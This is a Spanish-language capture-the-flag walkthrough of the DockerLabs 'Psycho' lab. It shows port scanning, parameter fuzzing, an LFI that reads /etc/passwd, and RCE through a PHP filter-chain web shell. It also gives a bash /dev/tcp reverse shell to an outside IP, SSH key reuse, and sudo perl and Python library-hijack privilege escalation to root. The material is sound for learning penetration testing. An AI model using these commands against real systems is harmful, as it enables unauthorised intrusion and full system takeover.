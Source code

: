 - Tags: #Pysicho
---
# Aprendizaje en Psycho
El laboratorio Psycho de DockerLabs es un entorno vulnerable en Linux donde se practican técnicas básicas de hacking ético. Incluye enumeración de servicios, explotación de una vulnerabilidad LFI, acceso mediante clave SSH filtrada y escalada de privilegios usando sudo.

[Maquina Psyicho](https://mega.nz/file/MSkgWDKJ#UHmAFBkvOpAc9fPIDocrVDLYz0VY6BolhLz87f3tSNM) ==> Enlace de descarga al laboratorio 
```bash
7z x psycho.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh psycho.tar # Desplegamos el proyecto.
```
---

#### Fase Reconocimiento:
**( 172.17.0.2 )** ==> Direccion IP del target.
```bash
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para ver si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Deteccion Puertos:
```bash
 nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos expuestos en el target
 extractPorts allPorts # Parseamos toda la informacion mas relevante
  nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos
```
---
- **( 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0) )** ==> Tenemos un servicio ssh expuesto, que podremos enumerar si podemos encontrar usuario filtrados
- **( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** ==> Tenemos un servicio apache desplegado el cual tendremos que auditar.
- **( Apache httpd 2.4.58 )** ==> Por el **codeName** podemos determinar que estamos ante una posible version de **ubuntuNoble**

#### Fase Reconocimiento Web:
```bash
nmap -p22 --script http-enum 172.17.0.2 # No nos reporta nada critido

whatweb 172.17.0.2 # Realizamos deteccion de tecnologias usadas por la web
	http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```
---

#### Fase Reconocimiento Rutas:
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash # Detectamos un directorio
```
---
**( http://172.17.0.2 )** ==> Tenemos un posible usuario: **( Tluisillo / luisillo )**
**( http://172.17.0.2/assets/ )** ==> Este directorio contempla una imagen, La descargaremos para ver si tiene archivos adjuntos.
**Nota** ==> Detectamos un posible error en la pagina, Sabiendo que es un: **( index.php )** podemos probar **fuzzeando** la url para detectar en caso de que este llamando a algun parametro
```bash
wfuzz -c --hw 169 -t 20 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ"

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
=====================================================================
000004819:   500        62 L     166 W      2582 Ch     "secret"    # Detectamos este  parametro que nos permitiria apuntar a recurso internos en caso de que logremos explotar un LFI
```
---
**( view-source:http://172.17.0.2/index.php?secret=../../../etc/passwd )** ==> Logramos acontecer un **LFI**, Listando el archivo **passwd** tenemos un usuario **luisillo** que despues podemos intentar vulnerar,
**Nota** ==> Interceptamos la peticion, Con **burpSuite** para intentar explotar la url, De todas las pruebas que realizamos logrmos ejecutar comandos con esta herramienta explotando el parametro: **( secret )** que es donde inyectamos la instruccion que no ayuda a generar esta herramienta
 #### Uso php Filter Chain Generator:
```bash
git clone https://github.com/synacktiv/php_filter_chain_generator
```
---
- **@** Ejecutamos el siguiente comando para ver su modo de uso:
```python
python3 php_filter_chain_generator.py -h
```
---
- **--chains** ==> Permite pasarle una cadena que nos interesa generar quedando de la siguiente manera:
```python
python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'
```
---
- ahora que hemos logrado ejecutar comandos, Tendremos que ganar acceso. Asi mismo realizaremos una instruccion php para poder controlar el comando con la misma herramienta
```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]) ?>' # Para poder controlar el comando.
```
---
**Nota** ==> Ya que o tenemos nombres de usuarios probaremos con fuerza bruta al puerto SSH con uno de estos usuarios, pero no obtenemos algún resultado favorable. Probamos revisando algunos archivos `.log`, no obtenemos ningún resultado. Buscamos archivos comunes de los usuarios y para el usuario `vaxei` podemos obtener su archivo `id_rsa`.
#### Intrusion
**Nota** ==> Desde **burpSuite** tenemos el control del comando que queremos ejecutar ahora toca ganar acceso a la maquina, 
```bash
nc -nlvp 443

bash -c 'exec bash -i &>/dev/tcp/192.168.100.22/443 <&1' # Tendremos que urlEncodear en caso de que nos de problema el & y ejecutamos la isntruccion, Y tenemos que urlencodear la instruccion
```
---
Logramos ganar acceso a la maquina como el usuario **www-data**

#### Escalada Privilegios.
**( /home/vaxei/.ssh )** ==> Podemos acceder a este usuario y ver sus claves **ssh** para poder intentar migrar por este usuario.
```bash
ssh -i id_rsa vaxei@localhost  # Migramos a este usuario:
```
---
```bash
sudo -l # Listamos los permisos y este usuario puede ejecutar el binario de perl, sin proporcional password
User vaxei may run the following commands on 989a528dbbf1:
    (luisillo) NOPASSWD: /usr/bin/perl
```
---
```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash -p";' # Obtuvimos una shell si privilegios como este usuario pero ahora logramos migrar a este usaurio ( luisillo )
```
---
```bash
sudo -l

User luisillo may run the following commands on 989a528dbbf1: # Tenemos una via potencial de elevar privilegios a root por el binario de python
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```
---
**( export PATH=/opt:$PATH )** ==> Realizamos esta modificacon para secuestrar el path de python, ya que el script: **( paw.py )** necesita el modulo **subprocess.py** crearemos una igual en **( /opt )** para poder secuestrar la libreria.
```bash
import os;
os.system("chmod u+s /bin/bash")
```
---
- Ahora hemos logrado cambiarle los permisos de la bash,
```bash
bash -p # Migramos al usuario root. 
```